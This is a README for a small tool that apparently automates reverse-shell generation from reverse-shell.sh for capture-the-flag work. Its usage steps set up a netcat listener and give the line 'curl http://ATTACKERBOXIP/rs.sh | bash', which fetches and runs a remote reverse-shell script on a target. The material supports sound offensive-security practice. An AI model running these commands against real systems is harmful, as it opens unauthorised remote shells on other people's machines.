 # Auto-RSaaS
Automated the usage of https://reverse-shell.sh/

 _  .-')    .-')     ('-.       ('-.      .-')    
( \( -O )  ( OO ).  ( OO ).-.  ( OO ).-. ( OO ).  
 ,------. (_)---\_) / . --. /  / . --. /(_)---\_) 
 |   /`. '/    _ |  | \-.  \   | \-.  \ /    _ |  
 |  /  | |\  :` `..-'-'  |  |.-'-'  |  |\  :` `.  
 |  |_.' | '..`''.)\| |_.'  | \| |_.'  | '..`''.) 
 |  .  '.'.-._)   \ |  .-.  |  |  .-.  |.-._)   \ 
 |  |\  \ \       / |  | |  |  |  | |  |\       / 
 `--' '--' `-----'  `--' `--'  `--' `--' `-----'  

 _  .-')    .-')     ('-.       ('-.      .-')    
( \( -O )  ( OO ).  ( OO ).-.  ( OO ).-. ( OO ).  
 ,------. (_)---\_) / . --. /  / . --. /(_)---\_) 
 |   /`. '/    _ |  | \-.  \   | \-.  \ /    _ |  
 |  /  | |\  :` `..-'-'  |  |.-'-'  |  |\  :` `.  
 |  |_.' | '..`''.)\| |_.'  | \| |_.'  | '..`''.) 
 |  .  '.'.-._)   \ |  .-.  |  |  .-.  |.-._)   \ 
 |  |\  \ \       / |  | |  |  |  | |  |\       / 
 `--' '--' `-----'  `--' `--'  `--' `--' `-----'  

=====================================================================================================================================================

Esentially this project automates the usage of the site https://reverse-shell.sh/. Typically during CTFs or even any timed engagements reverse shells are needed. There are two scripts located in the project the first being rs.sh which is just the reverse shell script grabbed from https://reverse-shell.sh/. Then we have gen.sh this is a script I wrote to grab the rs.sh file and edit its components.

Set Up
======================================================================================================================================================

1. Download the git project into your home folder /home/yourname/RSaaS/
2. Edit the contents of gen.sh to copy the rs.sh from your own home folder.
3. Setup a alias in bash to run rsaas something like rsaas= bash /home/harshil/rsaas/gen.sh

Usage
======================================================================================================================================================
1. run rsaas enter your port that you will listen on
2. setup a webserver where the rs.sh file is hosted (updog -p 80)
3. in another window run nc -nvlp 4444 (substitute 4444 which the port you are listening on)
4. use curl http://ATTACKERBOXIP/rs.sh | bash when attempting to use command execution
